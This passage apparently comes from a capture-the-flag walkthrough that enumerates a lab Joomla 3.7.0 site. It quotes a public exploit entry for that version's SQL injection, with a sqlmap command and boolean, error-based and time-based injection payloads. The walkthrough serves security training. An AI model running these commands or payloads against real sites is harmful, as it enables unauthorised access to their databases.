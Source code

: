 ```
===============================================================
2020/08/18 22:35:19 Finished
===============================================================
```
The only pages that had anything on them were `/server-status` and `/administrator`.

Forbidden: http://10.10.10.8/server-status
Admin panel: http://10.10.10.8/administrator/

A quick Google search takes me to [How to Quickly Know the Version of any Joomla Website](https://ioctopus.com/how-to-quickly-know-the-version-of-any-joomla-website). For any Joomla site version >= 1.6.0, go here: `/administrator/manifests/files/joomla.xml`.

http://10.10.10.8/administrator/manifests/files/joomla.xml : <version>3.7.0</version>

Searchsploit tells us of a SQL Injection vulnerability when we run `searchsploit joomla 3.7.0`. Let's give it a shot.

```
# Exploit Title: Joomla 3.7.0 - Sql Injection
# Date: 05-19-2017
# Exploit Author: Mateus Lino
# Reference: https://blog.sucuri.net/2017/05/sql-injection-vulnerability-joomla-3-7.html

# Vendor Homepage: https://www.joomla.org/

# Version: = 3.7.0
# Tested on: Win, Kali Linux x64, Ubuntu, Manjaro and Arch Linux
# CVE : - CVE-2017-8917


URL Vulnerable: http://localhost/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml%27



Using Sqlmap: 

sqlmap -u "http://localhost/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering]


Parameter: list[fullordering] (GET)
    Type: boolean-based blind
    Title: Boolean-based blind - Parameter replace (DUAL)
    Payload: option=com_fields&view=fields&layout=modal&list[fullordering]=(CASE WHEN (1573=1573) THEN 1573 ELSE 1573*(SELECT 1573 FROM DUAL UNION SELECT 9674 FROM DUAL) END)

    Type: error-based
    Title: MySQL >= 5.0 error-based - Parameter replace (FLOOR)
    Payload: option=com_fields&view=fields&layout=modal&list[fullordering]=(SELECT 6600 FROM(SELECT COUNT(*),CONCAT(0x7171767071,(SELECT (ELT(6600=6600,1))),0x716a707671,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.CHARACTER_SETS GROUP BY x)a)

    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 time-based blind - Parameter replace (substraction)
    Payload: option=com_fields&view=fields&layout=modal&list[fullordering]=(SELECT * FROM (SELECT(SLEEP(5)))GDiu)
```
